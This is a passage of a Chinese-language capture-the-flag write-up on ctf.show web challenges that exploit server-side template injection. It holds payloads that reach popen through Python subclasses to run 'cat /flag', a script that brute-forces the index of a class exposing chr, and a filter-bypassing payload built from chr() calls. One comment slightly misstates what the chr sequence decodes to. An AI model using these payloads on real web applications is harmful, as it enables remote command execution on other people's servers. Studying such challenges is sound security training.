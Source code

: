 这里其实使用上一题的方法还是可以

```handlebars
/?name={{().__class__.__mro__[1].__subclasses__()[132].__init__.__globals__.__getitem__(request.values.a)(request.values.b).read()}}&a=popen&b=cat /flag
```

这里介绍一下另一个方法chr方法

### chr

```python
import requests
 
baseurl="http://c48f6cc8-a4d6-4783-86af-982c96cf190e.challenge.ctf.show/?name="
 
for i in range(1000):
    payload="""{{().__class__.__mro__[1].__subclasses__()[%s].__init__.__globals__.__builtins__.chr}}"""%i
    r=requests.get(url=baseurl+payload)
    if "chr" in r.text:
        print(i)
    else:
        continue
```

通过脚本 寻找存在chr方法的类

然后使用 框架表达式 {{%%}}声明变量

来声明 chr的方法

```handlebars
?name={%set+chr=().__class__.__mro__[1].__subclasses__()[80].__init__.__globals__.__builtins__.chr%}{{().__class__.__mro__[1].__subclasses__()[132].__init__.__globals__.popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)).read()}}
 
 
 
这里是两块
{% set chr=().__class__.__mro__[1].__subclasses__()[80].__init__.__globals__.__builtins__.chr%}
 
第一块 来设置chr
 
 
第二块
{{().__class__.__mro__[1].__subclasses__()[132].__init__.__globals__.popen(chr(99)%2bchr(97)%2bchr(116)%2bchr(32)%2bchr(47)%2bchr(102)%2bchr(108)%2bchr(97)%2bchr(103)).read()}}
 
这里的chr() 是 cat /f*
```

## web365   【过滤中括号】

这里比上一题多了中括号的过滤
